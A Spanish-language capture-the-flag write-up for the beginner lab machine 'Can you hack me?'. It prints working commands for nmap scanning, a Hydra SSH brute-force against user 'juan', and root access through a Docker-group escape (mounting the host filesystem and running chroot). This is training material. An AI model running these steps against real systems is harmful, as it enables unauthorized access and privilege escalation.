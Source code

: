 ```yaml
---
description: '🔍 Dificultad: Principiante'
---
```


# Can you hack me?

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.53
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (657).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 192.168.1.53
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (658).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p21,22,80,3306 -v 192.168.1.53
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (659).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora exploramos el servicio **HTTP**. Antes que nada se añadió en el fichero `/etc/hosts` el dominio **canyouhackme.thl** con su correspondiente IP.

<figure><img src="../../.gitbook/assets/image (660).png" alt=""><figcaption></figcaption></figure>

Revisamos el código fuente y encontramos un mensaje relevante.

<figure><img src="../../.gitbook/assets/image (661).png" alt=""><figcaption></figcaption></figure>

Descubrimos un posible nombre de usuario llamado **juan** por lo que realizaremos un ataque de fuerza para poder obtener una contraseña y así poder conectarnos como descubrimos al servicio **SSH**.

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l juan -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.53
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **192.168.1.53**.

<figure><img src="../../.gitbook/assets/image (662).png" alt=""><figcaption></figcaption></figure>

Al realizar el ataque de fuerza bruta, hemos descubierto la contraseña de **juan**. Sabiendo esto, nos conectamos a través de **SSH** al usuario con el comando:

```bash
ssh juan@192.168.1.53
```

<figure><img src="../../.gitbook/assets/image (663).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar pero observamos que no podemos ejecutar sudo.

Listamos permisos **SUID** y **capabilities**, pero no tenemos nada que nos pueda ayudar.

```bash
find / -perm -4000 -user root 2>/dev/null -o -type f -exec getcap {} \; 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (666).png" alt=""><figcaption></figcaption></figure>

Verificamos los grupos a los que pertenece el usuario y observamos que forma parte del grupo **Docker**.

<figure><img src="../../.gitbook/assets/image (665).png" alt=""><figcaption></figcaption></figure>

Vamos a verificar si podemos aprovechar nuestra pertenencia al grupo **Docker**. Para más información, podemos consultar **HackTricks**, donde revisamos los detalles sobre Docker.

```bash
find / -name docker.sock 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (664).png" alt=""><figcaption></figcaption></figure>

Listamos las imágenes y confirmamos que tenemos una llamada **Alpine**.

```bash
docker images
```

<figure><img src="../../.gitbook/assets/image (667).png" alt=""><figcaption></figcaption></figure>

Con esto, ahora podemos ejecutar la imagen montando en el host y utilizando **chroot** para obtener acceso como **root**.

```bash
docker run -it -v /:/host/ alpine chroot /host/ bash
```

<figure><img src="../../.gitbook/assets/image (669).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (670).png" alt=""><figcaption></figcaption></figure>

Hemos finalizado con éxito **todas las etapas del proceso** y cumplido con todos los **requisitos**.&#x20;

¡Buena suerte en tu búsqueda de las **flags**! Recuerda prestar atención a cada detalle, examinar los archivos y servicios detenidamente, y utilizar todas las herramientas a tu alcance para encontrarlas. ¡La clave está en la perseverancia y en no dejar nada sin explorar! ¡Adelante, hacker! 💻🔍🚀
